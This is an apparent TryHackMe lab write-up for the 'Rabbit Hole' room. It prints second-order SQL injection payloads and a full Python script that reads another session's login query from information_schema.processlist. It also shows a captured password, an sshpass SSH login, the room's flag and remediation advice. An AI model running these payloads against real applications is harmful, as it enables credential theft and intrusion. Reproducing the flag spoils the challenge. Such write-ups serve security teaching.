

<div align="center">


</div>

---

# TryHackMe: Rabbit Hole — Complete Technical Walkthrough

- **Room**: Rabbit Hole
- **Platform**: TryHackMe
- **Difficulty**: Hard
- **Target**: `10.129.155.104`

---

## Table of Contents

1. [Executive Summary](#executive-summary)
2. [Visual Attack Flow](#visual-attack-flow)
3. [Reconnaissance & Port Scanning](#1-reconnaissance--port-scanning)
4. [Web Application Enumeration](#2-web-application-enumeration)
5. [Behavioral Analysis & Observation](#3-behavioral-analysis--observation)
6. [Vulnerability Discovery: Second-Order SQL Injection](#4-vulnerability-discovery-second-order-sql-injection)
   - [Hypothesis & Injection Surface](#hypothesis--injection-surface)
   - [Quote Sanitization Testing](#quote-sanitization-testing)
   - [Proof of Concept: Database Fingerprinting](#proof-of-concept-database-fingerprinting)
   - [Constraint Analysis: Output Truncation](#constraint-analysis-output-truncation)
7. [Deceptive Paths & Rabbit Holes](#5-deceptive-paths--rabbit-holes)
8. [Weaponization: Live Query Interception via Processlist](#6-weaponization-live-query-interception-via-processlist)
   - [The Anti-Brute-Force Race Window](#the-anti-brute-force-race-window)
   - [Overcoming 16-Character Truncation with UNION ALL](#overcoming-16-character-truncation-with-union-all)
   - [Automated Interception Exploit Script](#automated-interception-exploit-script)
   - [Credential Recovery Execution](#credential-recovery-execution)
9. [Initial Foothold & Flag Capture](#7-initial-foothold--flag-capture)
10. [Key Takeaways & Remediation](#8-key-takeaways--remediation)

---

## Executive Summary

During an authorized penetration testing simulation on the TryHackMe **Rabbit Hole** host, a high-severity vulnerability chain was discovered and exploited to achieve full host compromise:

1. **Second-Order SQL Injection**: The web application properly sanitized single quotes (`'`) during registration, but improperly handled double quotes (`"`) when concatenating stored usernames into dynamic queries used to render the user dashboard.
2. **Excessive Database Privileges**: The database user (`rabbit`) possessed administrative `PROCESS` privileges, granting it read access to active queries executed by all database sessions via `information_schema.processlist`.
3. **Flawed Defense Mechanism & Credential Exposure**: An internal administrative bot authenticated every 60 seconds. The login mechanism enforced anti-brute-force delays directly inside the database via `SLEEP(5)`. Because the query stalled inside MySQL/MariaDB for 5 seconds while containing cleartext credentials, it could be spied on directly via the second-order SQL injection primitive.
4. **Initial Foothold (SSH)**: The extracted administrative password was reused for host-level SSH access as user `admin`, yielding immediate access to the system flag.

---

## Visual Attack Flow



---

## 1. Reconnaissance & Port Scanning

We began by conducting full TCP port discovery against the target host:

```bash
rustscan -a 10.129.155.104 --ulimit 5000 -- -sV -sC -sS -A -Pn
```

### Port Scan Results

| Port | Service | Version | Description |
| :--- | :--- | :--- | :--- |
| **22/tcp** | SSH | OpenSSH 8.9p1 (protocol 2.0) | Standard secure shell service |
| **80/tcp** | HTTP | Apache httpd 2.4.59 (Debian) | PHP/8.3.9 web application |

All other ports were closed or filtered, narrowing the initial foothold surface entirely to the web application hosted on port 80.

---

## 2. Web Application Enumeration

Examining the HTTP root service (`http://10.129.155.104/`):

```bash
curl -i -s http://10.129.155.104/
```

The application presented a minimalist interface with two primary entry points:
- `/register.php` — User registration endpoint
- `/login.php` — User authentication endpoint

The landing page displayed an advisory:
> *"There are anti-bruteforce measures in place. Login functionality is actively monitored."*

And `/login.php` explicitly clarified the mechanism:
> *"There are anti-bruteforce measures in place, implemented with database queries."*

### Directory Fuzzing (`ffuf`)

```bash
ffuf -u http://10.129.155.104/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -e .php,.txt,.html -mc 200,301,302,403
```

Enumeration confirmed a tightly scoped web application:
- `/index.php` (Status: 200)
- `/register.php` (Status: 200)
- `/login.php` (Status: 200)
- `/logout.php` (Status: 302)
- `/css/` (Directory: `normalize.css`, `skeleton.css`)

No additional administrative routes, hidden upload scripts, or backup files were uncovered.

---

## 3. Behavioral Analysis & Observation

To establish a baseline, we registered a standard test account and inspected dashboard telemetry:

```bash
# Step 1: Register standard user
curl -s -i -X POST -d "username=testuser&password=password123&submit=Submit" -c cookies.txt http://10.129.155.104/register.php

# Step 2: Authenticate
curl -s -i -X POST -d "username=testuser&password=password123&login=Submit" -b cookies.txt -c cookies.txt http://10.129.155.104/login.php

# Step 3: Fetch dashboard
curl -s -b cookies.txt http://10.129.155.104/
```

### Key Observations

1. **Dual Dashboard Tables**:
   The dashboard rendered two distinct panels:
   - `User 1 - admin last logins`: Displays recent login records for UID 1 (`admin`).
   - `User <ID> - <username> last logins`: Displays login timestamps for the active session.

2. **Automated Admin Activity**:
   Reviewing timestamps for `admin` demonstrated a recurring authentication routine executing like clockwork once every 60 seconds (`08:17`, `08:18`, `08:19`, `08:20`...).

3. **Login Latency**:
   Every login request submitted to `/login.php` consistently took ~`5.3` seconds before returning a response. Paired with the prompt disclosure that rate-limiting was *"implemented with database queries"*, this strongly implied an embedded database delay function such as `SLEEP(5)`.

---

## 4. Vulnerability Discovery: Second-Order SQL Injection

### Hypothesis & Injection Surface

When a user signs up on `/register.php`, the supplied `username` is persisted into the database. When `/index.php` renders, it queries historical logins for that user and prints:
```html
<th>User <ID> - <username> last logins</th>
```
If the backend queries the login log table by interpolating the retrieved username without parameterization, stored data will break out of query boundaries.

### Quote Sanitization Testing

1. **Single Quote Test (`'`)**:
   Registering `user'test` resulted in a literal insertion. The single quote was safely escaped on insert.
2. **Double Quote Test (`"`)**:
   Registering with a double-quote character (`"`) altered query execution, demonstrating that the backend constructor wrapped the username parameter in double quotes or stripped/escaped only single quotes.

### Proof of Concept: Database Fingerprinting

To verify second-order SQL injection, we submitted the following payload inside the registration `username` field:

#### Step 1: Register Injection User
```bash
curl -s -X POST -d 'username=u_sqli" UNION SELECT 1, @@version -- -&password=password123&submit=Submit' -c cookies_poc.txt http://10.129.155.104/register.php
```

#### Step 2: Log In as Injection User
```bash
curl -s -X POST -d 'username=u_sqli" UNION SELECT 1, @@version -- -&password=password123&login=Submit' -b cookies_poc.txt -c cookies_poc.txt http://10.129.155.104/login.php
```

#### Step 3: View Dashboard Reflection
```bash
curl -s -b cookies_poc.txt http://10.129.155.104/
```

#### Reflected Output:
```html
<table class="u-full-width">
<thead><th>User 6 - u_sqli" UNION SELECT 1, @@version -- - last logins</th></thead>
<tbody>
<tr><td>11.4.2-MariaDB-u</td></tr>
</tbody>
</table>
```

### Constraint Analysis: Output Truncation

1. **Second-Order Trigger**: The injection occurs purely on `/index.php` during history resolution, bypassing initial form sanitization.
2. **Column Alignment**: The query expects a 2-column projection (`SELECT <id>, <login_timestamp>`).
3. **Database Engine**: Confirmed as `MariaDB 11.4.2`.
4. **16-Byte Truncation Limit**: The reflected string `11.4.2-MariaDB-u` was cut off at exactly 16 characters. The database schema enforces a `VARCHAR(16)` width on the rendered login timestamp column, meaning any extracted string longer than 16 bytes is truncated unless sliced.

---

## 5. Deceptive Paths & Rabbit Holes

Before landing on the viable exploit path, common default enumeration paths were thoroughly vetted:

- **Password Hash Dumping**: Dumping password hashes from the `users` table reveals bcrypt/MD5 hashes that do not exist within standard offline wordlists (`rockyou.txt`).
- **Webshell via `INTO OUTFILE`**: Testing file write operations (`SELECT ... INTO OUTFILE '/var/www/html/shell.php'`) fails because the database user `rabbit` lacks the `FILE` administrative grant.
- **Admin Password Reset via Stacked Queries**: Multi-query execution allowed updating the `admin` password hash directly inside `users`. However, web administrative access exposed no additional features, file management utilities, or flag information.

---

## 6. Weaponization: Live Query Interception via Processlist

### The Anti-Brute-Force Race Window

We synthesized our core observations:
1. The automated administrative cron runs every 60 seconds.
2. The authentication query intentionally invokes `SLEEP(5)` to implement its delay mechanism:
   ```sql
   SELECT * FROM users WHERE (username = 'admin' AND password = md5('...')) UNION ALL SELECT null, null, null, SLEEP(5) LIMIT 2
   ```
3. The database user possesses `PROCESS` privileges, allowing it to query `information_schema.processlist` to inspect queries actively running across any database thread.

Because the admin login query stalls in the engine for 5 full seconds, its raw text—including the password parameter—is fully visible in `information_schema.processlist.info` during that execution window.

### Overcoming 16-Character Truncation with UNION ALL

Because each table row only displays 16 characters, we used string slicing (`SUBSTR()`) coupled with chained `UNION ALL` statements. Each row extracts the next 16-byte window of the active query:

```sql
" UNION ALL 
SELECT 1, SUBSTR(info, 1, 16) FROM information_schema.processlist WHERE info NOT LIKE "%info%" AND info IS NOT NULL
UNION ALL 
SELECT 1, SUBSTR(info, 17, 16) FROM information_schema.processlist WHERE info NOT LIKE "%info%" AND info IS NOT NULL
UNION ALL 
SELECT 1, SUBSTR(info, 33, 16) FROM information_schema.processlist WHERE info NOT LIKE "%info%" AND info IS NOT NULL
UNION ALL 
SELECT 1, SUBSTR(info, 49, 16) FROM information_schema.processlist WHERE info NOT LIKE "%info%" AND info IS NOT NULL
... [chained through offset 288]
-- -
```

- **Query Exclusion**: `WHERE info NOT LIKE "%info%"` guarantees our own monitoring query does not return itself.
- **Zero Rows when Idle**: When the bot is inactive, the query returns 0 rows.
- **Instant Dump on Trigger**: When the bot executes its 5-second sleep query, all 18 table rows populate simultaneously on the dashboard.

### Automated Interception Exploit Script

Save the following exploit automation as `intercept.py`:

```python
#!/usr/bin/env python3
import requests
import time
import re
import sys

TARGET = "http://10.129.155.104"
s = requests.Session()

# Construct 18 chunks of 16 characters each (up to 288 bytes)
chunks = []
for i in range(18):
    start = 1 + i * 16
    chunks.append(
        f'SELECT 1, SUBSTR(info, {start}, 16) FROM information_schema.processlist '
        f'WHERE info NOT LIKE "%info%" AND info IS NOT NULL'
    )

payload = 'u_bot_spy" UNION ALL ' + ' UNION ALL '.join(chunks) + ' -- -'
password = 'spypassword123'

print("[*] Step 1: Registering spy user with sliced UNION payload...")
r_reg = s.post(f"{TARGET}/register.php", data={
    "username": payload,
    "password": password,
    "submit": "Submit"
})

print("[*] Step 2: Authenticating spy user...")
r_auth = s.post(f"{TARGET}/login.php", data={
    "username": payload,
    "password": password,
    "login": "Submit"
})

print("[*] Step 3: Polling dashboard for admin bot query during 5s SLEEP window...")
start_time = time.time()
while time.time() - start_time < 120:
    try:
        r = s.get(f"{TARGET}/", timeout=10)
        parts = r.text.split("u_bot_spy")
        if len(parts) > 1:
            spy_table = parts[1]
            rows = re.findall(r"<tr><td>(.*?)</td></tr>", spy_table)
            if rows:
                full_query = "".join(rows)
                print("\n[+] Successfully intercepted live query from processlist:")
                print("-" * 70)
                print(full_query)
                print("-" * 70)
                sys.exit(0)
    except Exception as e:
        pass
    time.sleep(1)
    print(".", end="", flush=True)

print("\n[-] Polling timed out after 120 seconds.")
```

### Credential Recovery Execution

Run the script from the attack machine:

```bash
python3 intercept.py
```

#### Terminal Output:
```text
[*] Step 1: Registering spy user with sliced UNION payload...
[*] Step 2: Authenticating spy user...
[*] Step 3: Polling dashboard for admin bot query during 5s SLEEP window...
..........................................
[+] Successfully intercepted live query from processlist:
----------------------------------------------------------------------
SELECT * from users where (username= 'admin' and password=md5('fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q') ) UNION ALL SELECT null,null,null,SLEEP(5) LIMIT 2
----------------------------------------------------------------------
```

### Extracted Credentials

From the captured runtime statement:
- **Username**: `admin`
- **Password**: `fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q`

---

## 7. Initial Foothold & Flag Capture

With SSH active on port 22, we leveraged the cleartext password to authenticate as `admin`. 

> **Note**: Because modern OpenSSH clients might attempt public key agent authentication first and trigger server drop-outs, we explicitly disabled public key authentication using `-o PubkeyAuthentication=no`:

```bash
sshpass -p 'fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q' ssh -o StrictHostKeyChecking=no -o PubkeyAuthentication=no admin@10.129.155.104
```

### Shell Session & Flag Extraction

```bash
admin@ubuntu-jammy:~$ id
uid=1002(admin) gid=118(admin) groups=118(admin)

admin@ubuntu-jammy:~$ pwd
/home/admin

admin@ubuntu-jammy:~$ ls -la
total 24
drwxr-x--- 2 admin admin 4096 Jul 20  2024 .
drwxr-xr-x 5 root  root  4096 Jul 20  2024 ..
-rw-r--r-- 1 admin admin  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 admin admin 3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 admin admin  807 Jan  6  2022 .profile
-rw-r--r-- 1 root  root    50 Jul 20  2024 flag.txt

admin@ubuntu-jammy:~$ cat flag.txt 
THM{this_is_the_way_step_inside_jNu8uJ9tvKfH1n48}
```

---

## 8. Key Takeaways & Remediation

1. **Implement Prepared Statements Everywhere**:
   Sanitizing input upon insertion (`register.php`) is insufficient if data is later concatenated into raw SQL strings during rendering (`index.php`). Prepared statements and parameterized queries must be enforced across all read and write operations.
2. **Enforce Database Principle of Least Privilege**:
   The web application's database account (`rabbit`) should never be granted administrative server privileges like `PROCESS`. Without `PROCESS`, unprivileged database sessions can only inspect their own active threads, completely blinding them to background bot activity.
3. **Never Implement Rate Limiting via Database Sleep Statements**:
   Embedding delays (`SLEEP()`) inside SQL statements causes sensitive credentials to sit in active database memory buffers for multiple seconds. Rate-limiting should be handled at the application middleware, web server (e.g., `mod_ratelimit`), or reverse-proxy layer (e.g., Nginx `limit_req_zone`).
